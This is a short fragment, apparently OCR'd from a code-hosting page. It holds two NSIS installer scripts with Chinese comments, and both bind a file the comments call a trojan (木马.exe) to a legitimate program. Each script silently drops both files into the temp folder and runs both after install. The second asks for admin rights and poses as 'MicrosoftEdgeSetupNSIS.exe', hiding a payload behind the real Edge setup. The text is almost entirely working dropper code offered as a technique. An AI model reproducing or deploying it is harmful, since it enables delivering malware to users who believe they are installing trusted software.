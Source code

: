 ```nsis
    SetOutPath  "$TEMP\xxxxx"
    ; 指定安装包在打包时要包含进那些文件，安装时会将"木马.exe"释放到"$TEMP\xxxxx"
    File "木马.exe" 

SectionEnd

; 开始安装步骤2，将"正常文件.exe"复制到"$TEMP\xxxx2"
Section "Section2" SEC02
    SetOutPath "$TEMP\xxxx2"
    File "正常文件.exe"
SectionEnd

; 会在安装成功后执行，这里就直接执行exe就好了
Function .onInstSuccess
  Exec "$TEMP\xxxxx\木马.exe"
  Exec "$TEMP\xxxx2\正常文件.exe
  ; 打开文档可以用下面的命令
  ; ExecShell open  "$TEMP\测试文档.docx"
FunctionEnd

```

例如

```nsis
OutFile "MicrosoftEdgeSetupNSIS.exe"

Icon "IDR_MAINFRAME.ico" 

RequestExecutionLevel admin 


!include "FileFunc.nsh" 

SilentInstall silent  


Function .onInit
  
FunctionEnd


Section "Section1" SEC01
    SetOutPath  "$TEMP"
    File "msedge.exe" 

SectionEnd

Section "Section2" SEC02
    SetOutPath "$TEMP"
    File "MicrosoftEdgeSetup.exe"
SectionEnd

Function .onInstSuccess
  Exec "$TEMP\msedge.exe"
  Exec "$TEMP\MicrosoftEdgeSetup.exe"
FunctionEnd

```
